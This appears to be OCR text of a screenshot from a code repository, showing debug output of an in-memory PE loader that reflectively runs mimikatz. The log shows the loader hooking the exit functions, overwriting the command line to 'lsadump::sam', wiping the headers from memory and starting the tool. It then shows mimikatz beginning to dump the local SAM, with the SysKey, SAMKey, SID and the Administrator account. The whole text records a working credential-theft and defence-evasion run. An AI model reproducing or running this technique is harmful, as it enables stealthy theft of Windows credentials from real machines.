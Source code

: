 DEBUG: inmem_pe.c:157:RunPE(): Loading advapi32.dll
DEBUG: inmem_pe.c:157:RunPE(): Loading msasn1.dll
DEBUG: inmem_pe.c:157:RunPE(): Loading ntdll.dll
DEBUG: inmem_pe.c:157:RunPE(): Loading netapi32.dll
DEBUG: inmem_pe.c:157:RunPE(): Loading KERNEL32.dll
DEBUG: inmem_pe.c:180:RunPE(): Replacing KERNEL32.dll!ExitProcess with ntdll!RtlExitUserThread
DEBUG: inmem_pe.c:157:RunPE(): Loading msvcrt.dll
DEBUG: inmem_pe.c:180:RunPE(): Replacing msvcrt.dll!exit with ntdll!RtlExitUserThread
DEBUG: inmem_pe.c:180:RunPE(): Replacing msvcrt.dll!_cexit with ntdll!RtlExitUserThread
DEBUG: inmem_pe.c:180:RunPE(): Replacing msvcrt.dll!_exit with ntdll!RtlExitUserThread
DEBUG: inmem_pe.c:194:RunPE(): Processing Delayed Import Table
DEBUG: inmem_pe.c:202:RunPE(): Loading bcrypt.dll
DEBUG: inmem_pe.c:202:RunPE(): Loading ncrypt.dll
DEBUG: inmem_pe.c:317:RunPE(): Setting command line: CC6C lsadump::sam exit
DEBUG: inmem_pe.c:436:SetCommandLineW(): Obtaining handle for kernelbase
DEBUG: inmem_pe.c:452:SetCommandLineW(): Searching 2161 pointers
DEBUG: inmem_pe.c:461:SetCommandLineW(): BaseUnicodeCommandLine at 00007FFF74179E60 : loader  ..\instance
DEBUG: inmem_pe.c:469:SetCommandLineW(): New BaseUnicodeCommandLine at 00007FFF74179E60 : CC6C lsadump::sam exit
DEBUG: inmem_pe.c:486:SetCommandLineW(): New BaseAnsiCommandLine at 00007FFF74179E70 : CC6C lsadump::sam exit
DEBUG: inmem_pe.c:533:SetCommandLineW(): Setting ucrtbase.dll!__p__acmdln "loader  ..\instance" to "CC6C lsadump::sam exit"
DEBUG: inmem_pe.c:546:SetCommandLineW(): Setting ucrtbase.dll!__p__wcmdln "loader  ..\instance" to "CC6C lsadump::sam exit"
DEBUG: inmem_pe.c:533:SetCommandLineW(): Setting msvcrt.dll!_acmdln "loader  ..\instance" to "CC6C lsadump::sam exit"
DEBUG: inmem_pe.c:546:SetCommandLineW(): Setting msvcrt.dll!_wcmdln "loader  ..\instance" to "CC6C lsadump::sam exit"
DEBUG: inmem_pe.c:321:RunPE(): Wiping Headers from memory
DEBUG: inmem_pe.c:330:RunPE(): Creating thread for entrypoint of EXE : 0000018F04C207F8


  .#####.   mimikatz 2.2.0 (x64) #18362 Aug 14 2019 01:31:47
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # lsadump::sam
Domain : DESKTOP-B888L2R
SysKey : b43927eef0f56833c527ea951c37abc1
Local SID : S-1-5-21-1047138248-288568923-692962947

SAMKey : f1813d42812fcde9c5fe08807370613d

RID  : 000001f4 (500)
User : Administrator
